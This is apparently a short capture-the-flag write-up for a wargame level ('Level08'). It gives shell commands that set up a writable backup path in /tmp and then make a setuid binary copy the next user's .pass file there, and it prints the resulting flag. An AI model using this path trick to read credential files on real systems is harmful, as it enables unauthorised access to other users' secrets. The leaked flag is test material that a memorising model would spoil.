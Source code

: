 ## Level08
## Commands
```
cd /tmp
mkdir backups
touch backups/.log
chmod 777 backups/.log
mkdir -p home/users/level09
/home/users/level08/level08 ../home/users/level09/.pass
cat home/users/level09/.pass
```

## Flag

	fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S